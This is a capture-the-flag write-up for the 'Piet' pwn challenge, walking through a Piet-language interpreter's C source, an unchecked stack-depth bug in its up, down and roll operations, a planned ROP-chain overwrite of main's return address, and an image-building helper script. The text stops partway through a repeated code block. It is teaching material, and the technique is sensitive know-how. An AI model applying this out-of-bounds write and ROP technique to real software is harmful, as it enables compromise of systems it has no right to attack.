### Overview

Piet is one of the Interpreter pwn challenge from l3ak-ctf. I kinda spent a lot of time on this, and solved it locally and in docker but still my solve did not work on remote. The challenge is kinda different cuz there's no way to print leak or should I say there is no need to leak.




Well I was not happy seeing ~500 loc.

### Source code

```c
int main(void) {
  setbuf(stdout, NULL);

  Image* img = load_png();
  if (!img)
    return 1;

  printf("Size: %d x %d\n", img->width, img->height);
  for (int y = 0; y < img->height; y++) {
    for (int x = 0; x < img->width; x++) {
      printf("%06X ", img->pixels[y][x]);
    }
    printf("\n");
  }
  interpret_program(img);
  free_image(img);
  return 0;
}
```

This is the main function. Pretty simple, It calls `load_png` function and return value is of type `Image*`. I was not much familiar with `libpng` so started digging the source code.

```c
Image* load_png(void) {
  png_structp png =
      png_create_read_struct(PNG_LIBPNG_VER_STRING, NULL, NULL, NULL);
  if (!png)
    return NULL;

  png_infop info = png_create_info_struct(png);
  if (!info) {
    png_destroy_read_struct(&png, NULL, NULL);
    return NULL;
  }

  if (setjmp(png_jmpbuf(png))) {
    png_destroy_read_struct(&png, &info, NULL);
    return NULL;
  }

  png_init_io(png, stdin);
  png_read_info(png, info);

  int width = png_get_image_width(png, info);
  int height = png_get_image_height(png, info);
  png_byte color_type = png_get_color_type(png, info);
  png_byte bit_depth = png_get_bit_depth(png, info);

  if (bit_depth == 16)
    png_set_strip_16(png);
  if (color_type == PNG_COLOR_TYPE_PALETTE)
    png_set_palette_to_rgb(png);
  if (color_type == PNG_COLOR_TYPE_GRAY && bit_depth < 8)
    png_set_expand_gray_1_2_4_to_8(png);
  if (png_get_valid(png, info, PNG_INFO_tRNS))
    png_set_tRNS_to_alpha(png);
  if (color_type == PNG_COLOR_TYPE_RGBA ||
      color_type == PNG_COLOR_TYPE_GRAY_ALPHA)
    png_set_strip_alpha(png);
  if (color_type == PNG_COLOR_TYPE_GRAY ||
      color_type == PNG_COLOR_TYPE_GRAY_ALPHA)
    png_set_gray_to_rgb(png);

  png_read_update_info(png, info);

  png_bytep* row_pointers = malloc(height * sizeof(png_bytep));
  for (int y = 0; y < height; y++)
    row_pointers[y] = malloc(png_get_rowbytes(png, info));

  png_read_image(png, row_pointers);
  png_destroy_read_struct(&png, &info, NULL);

  Image* img = malloc(sizeof(Image));
  img->width = width;
  img->height = height;
  img->pixels = malloc(height * sizeof(uint32_t*));

  for (int y = 0; y < height; y++) {
    img->pixels[y] = malloc(width * sizeof(uint32_t));
    png_bytep row = row_pointers[y];
    for (int x = 0; x < width; x++) {
      uint8_t r = row[x * 3 + 0];
      uint8_t g = row[x * 3 + 1];
      uint8_t b = row[x * 3 + 2];
      img->pixels[y][x] = ((uint32_t)r << 16) | ((uint32_t)g << 8) | b;
    }
    free(row_pointers[y]);
  }
  free(row_pointers);

  return img;
}
```

This is `load_png` function, which takes png bytes from `stdin`.

`NOTE`: I tried to explain most of the function in the blog, but longer I dig, more it felt like a undiggable hole. So I removed all of the png content.
Mostly It was source code from libpng and what does each functions do, But I think most of it was self-explanatory. You can clone the source to read it, also manpages are very helpful as they gave some layman idea about functions.

After `load_png` nex loc prints image size and then prints all the image pixels.

```c
printf("Size: %d x %d\n", img->width, img->height);
for (int y = 0; y < img->height; y++) {
  for (int x = 0; x < img->width; x++) {
    printf("%06X ", img->pixels[y][x]);
  }
  printf("\n");
}
interpret_program(img);
free_image(img);
return 0;
```

And then it calls `interpret_program`. free_image justs frees the heap memory.

```c
void interpret_program(Image* img) {
  int32_t stack[256];
  ProgramState state = {
      .stack = stack,
      .stack_depth = 0,
      .CC = LEFT,
      .DP = RIGHT,
      .row = 0,
      .col = 0,
  };

  while (next_codel(img, &state)) {
    color col = lookupColor(img->pixels[state.row][state.col]);
  }
  printf("halted\n");
}
```

So `interpret_program` initializes stack variable of `size` 0x100*0x4 bytes, but does not `NULL` it, which means there could be some uninitalized data on this memory. Then initializes the `ProgramState` state `struct` with some value, and goes into while loop, then calls `next_codel`.

```c
int next_codel(const Image* img, ProgramState* state) {
  int size;
  int old_hex = img->pixels[state->row][state->col];
  Pos* block = flood_fill(img, state->row, state->col, &size);
```

According to value of `state->row` and `state->column` which is initially zero, it stores the `image->pixel` in `old_hex`, and then calls `flood_fill`.

```c
static Pos* flood_fill(const Image* img, int row, int col, int* size) {
  uint32_t color = img->pixels[row][col];
  int total = img->width * img->height;
  char* visited = calloc(total, 1);
  Pos* stack = malloc(total * sizeof(Pos));
  Pos* result = malloc(total * sizeof(Pos));
  int sp = 0, rp = 0;

  stack[sp++] = (Pos){row, col};
  visited[row * img->width + col] = 1;

  while (sp > 0) {
    Pos p = stack[--sp];
    result[rp++] = p;
    for (int d = 0; d < 4; d++) {
      int nr = p.row + DR[d];
      int nc = p.col + DC[d];
      if (in_bounds(img, nr, nc) && !visited[nr * img->width + nc] &&
          img->pixels[nr][nc] == color) {
        visited[nr * img->width + nc] = 1;
        stack[sp++] = (Pos){nr, nc};
      }
    }
  }

  free(visited);
  free(stack);
  *size = rp;
  return result;
}
```

This is the `flood_fill` function, which takes row and col as argument, previously pixel at this place was stored in old_hex, and now it's stored in color, then allocates chunk of total size, and then allocates stack and result and initializes `sp(stack pointer)` and `rp(result pointer)` as 0x0.
Honestly I did not understand much of this code so I started looking at assembly in IDA.
And `stack chunk` stores the row and col from argument and `visited chunk` marks which pixel position has been visited like a boolean flag.

```c
static const int DR[] = {-1, 0, 1, 0};
static const int DC[] = {0, 1, 0, -1};
```

Next loc is while loop which uses `DR` and `DC` to traverse in UP,RIGHT,DOWN,LEFT, and then bounds_check, nonvisited_check and lastly if color is same, then pixel is marked visited and then it's stored in stack chunk and in next loop, stored in `result_chunk`. Also increases the result pointer, meaning how many pixels are of same color. And now the program will check the neighbours of new pixel.
After all the pixels of same color are stored in result_chunk, It exits loop and then update size which is result_pointer.

```c
for (int attempt = 0; attempt < 8; attempt++) {
  Pos exit = exit_codel(block, size, state->DP, state->CC);
  int nr = exit.row + DR[state->DP];
  int nc = exit.col + DC[state->DP];
```

In the next loc of next_codel, it calls exit_codel.

```c
typedef enum { UP, RIGHT, DOWN, LEFT } dir;

static Pos exit_codel(const Pos* block, int size, dir dp, dir cc) {
  int extreme = (dp == RIGHT || dp == DOWN) ? INT_MIN : INT_MAX;
  for (int i = 0; i < size; i++) {
    int v = (dp == RIGHT || dp == LEFT) ? block[i].col : block[i].row;
    if ((dp == RIGHT || dp == DOWN) ? v > extreme : v < extreme)
      extreme = v;
  }

  int want_max = (dp == RIGHT && cc == RIGHT) || (dp == DOWN && cc == LEFT) ||
                 (dp == LEFT && cc == LEFT) || (dp == UP && cc == RIGHT);

  int sec = want_max ? INT_MIN : INT_MAX;
  Pos chosen = block[0];
  for (int i = 0; i < size; i++) {
    int prim = (dp == RIGHT || dp == LEFT) ? block[i].col : block[i].row;
    if (prim != extreme)
      continue;
    int s = (dp == RIGHT || dp == LEFT) ? block[i].row : block[i].col;
    if ((want_max && s > sec) || (!want_max && s < sec)) {
      sec = s;
      chosen = block[i];
    }
  }
  return chosen;
}
```


I did not understand anything in this during ctf, but [This](https://www.dangermouse.net/esoteric/piet.html) and [this](https://codegolf.stackexchange.com/questions/246224/simplified-piet-interpreter) blogs: helped me understanding functionality of `exit_codel` and How piet executes.




According to DP and CC exit_codel finds a color block. If the DP is RIGHT then rightmost column is selected and according to CC, the furthurmost color block is selected.

```c
int next_codel(const Image* img, ProgramState* state) {
  int size;
  int old_hex = img->pixels[state->row][state->col];
  Pos* block = flood_fill(img, state->row, state->col, &size);

  for (int attempt = 0; attempt < 8; attempt++) {
    Pos exit = exit_codel(block, size, state->DP, state->CC);
    int nr = exit.row + DR[state->DP];
    int nc = exit.col + DC[state->DP];

    if (!in_bounds(img, nr, nc) || img->pixels[nr][nc] == BLACK) {
      if (attempt % 2 == 0)
        state->CC = (state->CC == LEFT) ? RIGHT : LEFT;
      else
        state->DP = (dir)((state->DP + 1) % 4);
      continue;
    }

    if (img->pixels[nr][nc] == WHITE) {
      int dest_row, dest_col;
      if (!slide_white(img, nr, nc, state->DP, &dest_row, &dest_col)) {
        if (attempt % 2 == 0)
          state->CC = (state->CC == LEFT) ? RIGHT : LEFT;
        else
          state->DP = (dir)((state->DP + 1) % 4);
        continue;
      }
      state->row = dest_row;
      state->col = dest_col;
      free(block);
      /* white blocks are nops: no instruction executed */
      return 1;
    }
    int new_hex = img->pixels[nr][nc];
    state->row = nr;
    state->col = nc;
    free(block);
    doInstruction(old_hex, new_hex, size, state);
    return 1;
  }

  free(block);
  return 0;
}
```

After that, I easily understood the use of next_codel, It simply collects `code/color-block` which is group of same color. And in exit_codel, It finds where to start in `color_block`, which is chosen on the basis of `DP` and `CC`. After calculating `exit_codel`, It uses this to tour around neighbours of exit_pixel which is again done using DP and CC, and new pixe is stored in nr and nc, and after comes three code paths, if the pixels at nr and nc is black , white or none of them.
The conclusion on how traversal happens is like this, consider DP as 4 directions in 2D place, RIGHT DOWN LEFT UP, and if DP is right no matter what CC is, next block(nr and nc) will try to go into RIGHT direction, which is column++. CC is only used to choose, which end of column, uppermost or lowermost.
And this is same with all the DPs.

```c
if (!in_bounds(img, nr, nc) || img->pixels[nr][nc] == BLACK) {
  if (attempt % 2 == 0)
    state->CC = (state->CC == LEFT) ? RIGHT : LEFT;
  else
    state->DP = (dir)((state->DP + 1) % 4);
  continue;
}
```

If the new nr and nc is in bounds and pixels at it is black, if attempt is even, it changes the CC and if it is odd, it changes DP, and start the next loop.

```c
if (img->pixels[nr][nc] == WHITE) {
  int dest_row, dest_col;
  if (!slide_white(img, nr, nc, state->DP, &dest_row, &dest_col)) {
    if (attempt % 2 == 0)
      state->CC = (state->CC == LEFT) ? RIGHT : LEFT;
    else
      state->DP = (dir)((state->DP + 1) % 4);
    continue;
  }
  state->row = dest_row;
  state->col = dest_col;
  free(block);
  /* white blocks are nops: no instruction executed */
  return 1;
}
```

If the pixel at nr and nc is white, then it calls slide_white function.

```c
static int slide_white(const Image* img,
                       int row,
                       int col,
                       dir dp,
                       int* out_row,
                       int* out_col) {
  while (1) {
    int nr = row + DR[dp];
    int nc = col + DC[dp];
    if (!in_bounds(img, nr, nc) || img->pixels[nr][nc] == BLACK)
      return 0;
    if (img->pixels[nr][nc] != WHITE) {
      *out_row = nr;
      *out_col = nc;
      return 1;
    }
    row = nr;
    col = nc;
  }
}
```

In slide_white, new nr and nc is calculated using DP and then same bounds check, and one BLACK check. If any of check fails, then it return zero and then according to attempt, DP and CC is changed.
But If pixel is white, then It slides and remain trapped in while loop, But if It's not white, then new nr and nc is loaded on out_row and out_col and in next_codel, state->row and state->col is updated to out_row and out_col.
But if above condition happens, then return will execute and whole ass loop will return and `lookupColor` will be called.
If we somehow make `slide_white` zero and if we do this, DP and CC will change according to attempt and next itteration of for_loop will start with attempt++.
Now in the last case which is neither BLACK nor WHITE, it finds pixel at nr and nc, and then calls `doInstruction`.

```c
void doInstruction(int old_hex,
                   int new_hex,
                   int block_size,
                   ProgramState* state) {
  color old_color = lookupColor(old_hex);
  color new_color = lookupColor(new_hex);
  if (old_color < 0 || new_color < 0)
    return; /* black, white, or unrecognized */

  int hue_step = (hue(new_color) - hue(old_color) + 6) % 6;
  int light_step = (lightness(new_color) - lightness(old_color) + 3) % 3;

  INSTRUCTIONS[hue_step][light_step](state, block_size);
}
```

This is `doInstruction`. Simple, new color okay, old color okay and then calculates difference of `hue` and `light_step` and accoding to that executes `INSTRUCTIONS`, with arguments state and block_size. These two are importants in determining something which we'll see later.

```c
static const instruction_fn INSTRUCTIONS[6][3] = {
    {op_nop, op_push, op_pop}, {op_add, op_sub, op_mul},
    {op_div, op_mod, op_not},  {op_gt, op_ptr, op_switch},
    {op_dup, op_roll, op_up},  {op_in_c, op_nuh_uh, op_down},
};
```

now this is simple part, just a function pointer and different function, different uses. I'll only explain some functions, which I used to make exploit.

```c
typedef void (*instruction_fn)(ProgramState* state, int block_size);

static void op_nop(ProgramState* s, int sz) {
  (void)s;
  (void)sz;
}
static void op_push(ProgramState* s, int sz) {
  stack_push(s, sz);
}
static void op_pop(ProgramState* s, int sz) {
  int32_t a;
  (void)sz;
  stack_pop(s, &a);
}

static void op_add(ProgramState* s, int sz) {
  int32_t a, b;
  (void)sz;
  if (stack_pop(s, &a) && stack_pop(s, &b))
    stack_push(s, b + a);
}
static void op_sub(ProgramState* s, int sz) {
  int32_t a, b;
  (void)sz;
  if (stack_pop(s, &a) && stack_pop(s, &b))
    stack_push(s, b - a);
}
static void op_mul(ProgramState* s, int sz) {
  int32_t a, b;
  (void)sz;
  if (stack_pop(s, &a) && stack_pop(s, &b))
    stack_push(s, b * a);
}
```

```c
static void op_dup(ProgramState* s, int sz) {
  int32_t a;
  (void)sz;
  if (stack_pop(s, &a)) {
    stack_push(s, a);
    stack_push(s, a);
  }
}
static void op_roll(ProgramState* s, int sz) {
  int32_t n, d;
  (void)sz;
  if (!stack_pop(s, &n) || !stack_pop(s, &d))
    return;
  if (d <= 0)
    return;
  int count = ((n % d) + d) % d;
  for (int i = 0; i < count; i++) {
    int32_t top = s->stack[s->stack_depth - 1];
    for (int j = s->stack_depth - 1; j > s->stack_depth - d; j--)
      s->stack[j] = s->stack[j - 1];
    s->stack[s->stack_depth - d] = top;
  }
}
static void op_in_c(ProgramState* s, int sz) {
  int c = getchar();
  (void)sz;
  if (c != EOF)
    stack_push(s, (int32_t)c);
}
static void op_up(ProgramState* s, int sz) {
  (void)sz;
  s->stack_depth++;
}
static void op_down(ProgramState* s, int sz) {
  (void)sz;
  s->stack_depth--;
}

static void stack_push(ProgramState* state, int32_t value) {
  state->stack[state->stack_depth++] = value;
}

static int stack_pop(ProgramState* state, int32_t* out) {
  *out = state->stack[--state->stack_depth];
  return 1;
}
```

This is some of the instructions which is useful in making exploit. Prettu much self explanatory.

### Exploitation

Well Bug was pretty easy to spot, no bounds checking on `op_up` and `op_down`, means just increase the `stack_depth` to go OOB, and then write any stuff on memory.
But the real problem was how to take leak?
I tried to find the places where something is getting printed to stdout, which is these three,

```c
printf("Size: %d x %d\n", img->width, img->height);
for (int y = 0; y < img->height; y++) {
  for (int x = 0; x < img->width; x++) {
    printf("%06X ", img->pixels[y][x]);
  }
  printf("\n");
}
```

This in main.

```c
printf("halted\n");
```

This in interpret program,

```c
static void op_nuh_uh(ProgramState* s, int sz) {
  (void)s;
  (void)sz;
  printf("Removed for security reasons :3\n");
}
```

and finally this, but None of these can be chained to take leak.

```c
static void op_roll(ProgramState* s, int sz) {
  int32_t n, d;
  (void)sz;
  if (!stack_pop(s, &n) || !stack_pop(s, &d))
    return;
  if (d <= 0)
    return;
  int count = ((n % d) + d) % d;
  for (int i = 0; i < count; i++) {
    int32_t top = s->stack[s->stack_depth - 1];
    for (int j = s->stack_depth - 1; j > s->stack_depth - d; j--)
      s->stack[j] = s->stack[j - 1];
    s->stack[s->stack_depth - d] = top;
  }
}
```

This is the key to everything, if n is less than d then, count = n, and then it runs for loop and each time stores top_of_stack in top, and then makes a space at d, and then stores top at d. Meaning rolling it, considering an array of x length and rotating it so that last position becomes first, and if we do it again then second last position becomes first.
After this function there's no need of any leak.
Main function return address is a libc address, and we can use instructions to put a rop chain there. You can see the sz is of int data type so we have to consider that while using instructions cuz all addresses are of 8 bytes.
Now To execute instruction we have to jump from one color to another color, so I thought why not just use linear chain of colors over black sheet,
black color will stop all the directions, and only one direction color will prevail.
And then again use WHITE blocks to reset the color, so that I do not have to do anything extra or take care of last color block.
Honestly I was really sleepy, so I did not think about the consequences of my laziness.

```python
from PIL import Image
import io

COLORS = {
  (0, 0): (192, 0, 0),  #     (0xC00000)
  (0, 1): (255, 0, 0),  #   (0xFF0000)
  (0, 2): (255, 192, 192),  #    (0xFFC0C0)
  (1, 0): (192, 192, 0),  #  (0xC0C000)
  (1, 1): (255, 255, 0),  # (0xFFFF00)
  (1, 2): (255, 255, 192),  # (0xFFFFC0)
  (2, 0): (0, 192, 0),  #   (0x00C000)
  (2, 1): (0, 255, 0),  # (0x00FF00)
  (2, 2): (192, 255, 192),  #  (0xC0FFC0)
  (3, 0): (0, 192, 192),  #    (0x00C0C0)
  (3, 1): (0, 255, 255),  #  (0x00FFFF)
  (3, 2): (192, 255, 255),  #   (0xC0FFFF)
  (4, 0): (0, 0, 192),  #    (0x0000C0)
  (4, 1): (0, 0, 255),  #  (0x0000FF)
  (4, 2): (192, 192, 255),  #   (0xC0C0FF)
  (5, 0): (192, 0, 192),  # (0xC000C0)
  (5, 1): (255, 0, 255),  # (0xFF00FF)
  (5, 2): (255, 192, 255),  # (0xFFC0FF)
}

WHITE = (255, 255, 255)
BLACK = (0, 0, 0)

INSTRUCTIONS = {
  "NOP": (0, 0),
  "PUSH": (0, 1),
  "POP": (0, 2),
  "ADD": (1, 0),
  "SUB": (1, 1),
  "MUL": (1, 2),
  "DIV": (2, 0),
  "MOD": (2, 1),
  "NOT": (2, 2),
  "GT": (3, 0),
  "PTR": (3, 1),
  "SWITCH": (3, 2),
  "DUP": (4, 0),
  "ROLL": (4, 1),
  "UP": (4, 2),
  "IN_C": (5, 0),
  "NUH_UH": (5, 1),
  "DOWN": (5, 2),
}


def get_action_color(start_hue, start_light, instruction):
  dh, dl = INSTRUCTIONS[instruction.upper()]
  target_hue = (start_hue + dh) % 6
  target_light = (start_light + dl) % 3
  return COLORS[(target_hue, target_light)]


def build_pixel(instruction, size=1):
  base_hue, base_light = (0, 1)
  base_rgb = COLORS[(base_hue, base_light)]
  action_rgb = get_action_color(base_hue, base_light, instruction)

  pixels = []
  for _ in range(size):
    pixels.append(base_rgb)
  pixels.append(action_rgb)
  pixels.append(WHITE)

  return pixels


def main():
  exploit_pixels = []
  exploit_pixels += build_pixel("PUSH", size=0x1)

  L = len(exploit_pixels)
  width = L
  height = 1
  img = Image.new("RGB", (width, height), color=BLACK)

  img_pixels = img.load()

  for x in range(L):
    img_pixels[x, 0] = exploit_pixels[x]

  img.save("okay.png")


if __name__ == "__main__":
  main()
```




I made this simple program to test `PUSH`, well `op_push` is called, but after that program did not halt, and called `op_pop`. Now this is the part which took most of my time during CTF. The reason is in `attempt#4` it takes reverse path as all the time there's same `exit_codel`.

```python
def get_action_color(start_hue, start_light, instruction):
  dh, dl = INSTRUCTIONS[instruction.upper()]
  target_hue = (start_hue + dh) % 6
  target_light = (start_light + dl) % 3
  return COLORS[(target_hue, target_light)]


def build_pixel(instruction, size=1):
  base_hue, base_light = (0, 1)
  base_rgb = COLORS[(base_hue, base_light)]
  action_rgb = get_action_color(base_hue, base_light, instruction)

  pixels = []
  for _ in range(size):
    pixels.append(base_rgb)
